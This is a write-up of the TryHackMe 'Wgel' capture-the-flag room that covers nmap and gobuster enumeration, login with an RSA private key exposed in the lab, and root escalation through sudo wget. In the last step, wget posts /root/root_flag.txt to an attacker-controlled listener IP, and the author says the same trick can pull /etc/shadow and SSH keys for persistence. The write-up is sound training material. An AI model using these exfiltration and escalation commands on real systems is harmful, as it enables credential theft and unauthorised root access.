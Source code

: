 ```yaml
---
title: "Simple Boot to Root: Wgel CTF Walkthrough"
datePublished: Tue Aug 15 2023 12:44:50 GMT+0000 (Coordinated Universal Time)
cuid: cllcaq92z00020ajv636kebt5
slug: wgel-ctf
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1692102272955/2dc3f231-812c-4e86-9fbd-5e533b5f883c.png
tags: ctf, penetration-testing, 2articles1week, tryhackme, ethicalhacking

---
```


This is a straightforward boot-to-root walkthrough of the [Wgel](https://tryhackme.com/room/wgelctf) CTF found on [TryHackMe](https://tryhackme.com). The objective of this room is to perform active reconnaissance on a web server, obtain credentials, and log in using an exposed SSH key. The final step involves elevating to root by employing a privilege escalation technique with the `wget` binary.

### Step 1: What's Out There?

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/9%OT=22%CT=1%CU=30945%PV=Y%DS=4%DC=T%G=Y%TM=64AB91B3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=10
OS:4%GCD=1%ISR=109%TI=Z%CI=RD%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%TS=A)SEQ(S
OS:P=107%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%T
OS:S=A)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=
OS:M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=6
OS:8DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0
OS:%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.132 days (since Tue May 23 19:55:59 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We are examining two ports: `22` and `80`. Given that we can't do much with SSH unless we attempt to brute force it, and without a username, we would be relentlessly attacking this service, wasting time and probably making no progress. Therefore, the best approach is to enumerate the webserver to find a way in.

Default Apache2 Landing Page:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102430397/7966773b-6539-41dc-aeaa-533458969c49.png align="center")

The source code reveals a potential username: `Jessie`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102478196/1cbd7a70-e967-45e2-8919-08317e1dc565.png align="center")

### Step 2: Enumerate Using Gobuster

```bash
gobuster dir --url http://10.10.56.178/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102543441/959ab724-51fd-49f6-a135-4ba7216efe22.png align="center")

Let's navigate to [`http://10.10.56.178/sitemap/.ssh/`](http://10.10.56.178/sitemap/.ssh/)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102577951/43dd3297-168f-4074-a32b-b99ddfd7788a.png align="center")

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e34Fb98z1UFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

Excellent! An unsecured SSH key without a passphrase. We can easily generate our `id_rsa` key, set the permissions, and log in to the web server using this.

### Step 3: Log in

Copy and paste the key into a text file and name it `id_rsa`. Adjust the permissions:

```bash
sudo chmod 600 id_rsa
```

Log in:

```bash
ssh -i id_rsa jessie@10.10.56.178
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102825560/6035435a-f341-4528-8f98-1d7ab5ffa6b9.png align="center")

Our first flag can be found at this location:

```bash
/home/jessie/Documents
```

### Step 4: Privesc and Root

Now that we have a foothold on the server, let's explore what we can use to elevate our privileges. First, I like to check what the user is allowed to run as `sudo`. We can do this by typing:

```bash
sudo -l
```

Looks like we can use the binary:

```bash
/usr/bin/wget
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102993678/fac3ffc0-02ac-4f07-aedc-b4cca60b1507.png align="center")

Upon seeing something like this, your mind should instantly consider privilege escalation. [GTFObins](https://gtfobins.github.io/) is a valuable resource for finding elevation techniques.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103102039/6243510d-5697-42ff-90bd-6fdb2c9af820.png align="center")

We can transmit content to our attack box with `sudo` privileges, effectively granting us access to view materials that would otherwise be restricted. We can easily use `wget` to display the root flag.

Start a netcat listener:

```bash
nc -lvnp 80
```

From the web server:

```bash
sudo /usr/bin/wget http://10.13.28.215:80 --post-file=/root/root_flag.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103281913/d6604069-0fd0-46bd-9cd4-140bbcc6eb0c.png align="center")

Boom, we've obtained the root flag. From here, we can use this binary to acquire other `SSH` keys, the `/etc/shadow` file, and more to help us maintain persistence.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103417697/0d0e1534-594d-4cfb-b42a-fff74ab2495a.jpeg align="center")